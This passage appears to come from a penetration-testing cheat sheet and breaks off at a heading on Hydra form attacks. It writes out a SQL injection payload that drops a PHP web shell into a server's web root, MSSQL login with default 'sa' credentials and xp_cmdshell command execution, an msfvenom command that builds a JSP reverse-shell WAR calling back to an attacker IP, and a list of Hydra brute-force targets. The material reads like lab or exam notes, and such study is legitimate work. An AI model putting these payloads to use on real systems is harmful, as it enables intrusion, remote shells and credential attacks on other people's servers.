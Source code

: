 [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

POST request SQL injection:

```
q=injection&lang=en 'union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/bd.php%00''
```

***

## MSSQL Commands

[https://www.hackingloops.com/how-to-hack-windows-servers-using-privilege-escalation/](https://www.hackingloops.com/how-to-hack-windows-servers-using-privilege-escalation/)

Connect MSSQL server:

```
sqsh -S 10.11.1.227:27900 -U sa -P password
```

Check currently logged in user:

```
exec xp_cmdshell 'whoami'
go
```

If you have SYSTEM privileges, proceed with uploading reverse shell payload and execute.

***

## Tomcat Manager

Create reverse shell payload using WAR format:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.219 LPORT=4444 -f war -o reverse.war
```

***

## Brute Force and Cracking

Hydra supported services:

```
adam6500 asterisk cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get|post} http[s]-{get|post}-form http-proxy
http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres
radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

Hydra HTTP-POST-FORM request:
